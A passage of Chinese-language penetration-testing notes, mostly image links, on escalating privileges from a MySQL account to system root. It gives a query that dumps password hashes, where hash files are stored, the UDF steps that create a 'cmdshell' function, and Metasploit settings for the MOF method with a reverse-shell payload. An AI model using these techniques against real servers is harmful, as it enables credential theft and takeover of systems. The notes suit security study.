 [![Dl5Rkd.md.png](https://s3.ax1x.com/2020/11/21/Dl5Rkd.md.png)](https://imgchr.com/i/Dl5Rkd)

[![Dl5x10.md.png](https://s3.ax1x.com/2020/11/21/Dl5x10.md.png)](https://imgchr.com/i/Dl5x10)

[![Dl5zcV.md.png](https://s3.ax1x.com/2020/11/21/Dl5zcV.md.png)](https://imgchr.com/i/Dl5zcV)

**5.1.4 常见的提权方法总结**

[![Dl6QWF.md.png](https://s3.ax1x.com/2020/11/21/Dl6QWF.md.png)](https://imgchr.com/i/Dl6QWF)

#### 5.2 mysql 提权基础

一般mysql 经常 php 进行连接，

也会有较少 jsp, python， go等.

配置文件： conn.php, config.php, common.inc.php .国内目前大多数站点为php.

mysql 权限提升一般在 root 权限下。

mysql 普通账号 ---> mysql root --->  linux root

**5.2.1 密码获取与破解**

* 数据库查询

  ```
  select host,user,password from mysql.user   # 需要 root权限
  ```

  [![D1dCVS.md.png](https://s3.ax1x.com/2020/11/21/D1dCVS.md.png)](https://imgchr.com/i/D1dCVS)

  这里 localhost 是允许本地登录， % 为所有 ip 登录。

* 配置文件中读取

  网站源码泄露情况， github ,备份文件

* 下载user 文件

  user 文件在 mysql 的data目录下

  E:\phpstudy_pro\Extensions\MySQL5.7.26\data\mysql\user.MYD  中有md5加密后密码。

  ```
  select @@basedir
  select @@plugin_dir    # >5.1
  ```

**5.2.2 udf (用户自定义函数)提权**

* 导出 c:\\\\windows\\\\udf.dll
* create function cmdshell returns string soname 'udf.dll'
* select cmdshell('whoami')
* drop function cmdshell

[![D3PQTH.md.png](https://s3.ax1x.com/2020/11/21/D3PQTH.md.png)](https://imgchr.com/i/D3PQTH)

**5.2.3 mof （托管对象格式）提权**

* c:\windwos\system32\wbem\mof\

* use exploit/windows/mysql/mysql_mof
* set payload windows/shell_reverse_tcp
